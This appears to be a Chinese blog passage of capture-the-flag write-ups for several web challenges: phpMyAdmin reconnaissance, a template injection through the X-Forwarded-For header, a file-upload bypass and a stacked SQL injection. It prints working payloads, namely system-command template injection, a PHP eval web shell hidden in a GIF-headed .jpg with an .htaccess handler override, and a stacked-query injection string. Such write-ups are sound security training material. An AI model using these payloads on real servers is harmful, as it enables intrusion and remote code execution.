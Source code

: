 直接查看
![在这里插入图片描述](https://img-blog.csdnimg.cn/b80641b226544826849804676249e57b.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAZDB1ZA==,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)
没什么提示，那就先扫一遍目录
有 robots.txt 和 phpmyadmin

robots.txt
>User-agent: *
Disallow: phpinfo.php

访问，得到 phpinfo() 界面

phpmyadmin 直接进入后台管理，但没有得到任何数据，看看这个版本的phpmyadmin有什么可以利用的漏洞
![在这里插入图片描述](https://img-blog.csdnimg.cn/de57100a125247fdb9e22a688884b0be.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAZDB1ZA==,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)
搜索出来一大堆，直接借着现成的payload就行了


# \<BJDCTF2020>The mystery of ip
打开题目，不知所云

在flag.php界面回显ip地址，尝试修改XFF头，回显得到输入的数据
尝试注入，发现模板注入成功
```html
X-Forwarded-For: {{system("ls /")}}
```
```html
X-Forwarded-For: {{system("cat /flag")}}
```

# \<GXYCTF2019>BabyUpload
简单的文件上传
测试发现不能上传后缀中带有ph的文件
但可以上传.htaccess和.jpg并且会给出文件路径

a.jpg
```php
GIF8a
<script language='php'>@eval($_POST['door']);</script>
```
.htaccess
```html
AddType application/x-httpd-php .jpg 
```

蚁剑连接得到flag

# \<SUCTF 2019>EasySQL
打开题目，简单测试，可以发现是数字型注入

对于提交的数据，字符不回显，除零回显不同外，任何数字都有相同回显，union被过滤，但在尝试堆叠注入时成功。
```html
query=1;show tables;
```
>Array ( [0] => 1 ) Array ( [0] => Flag )
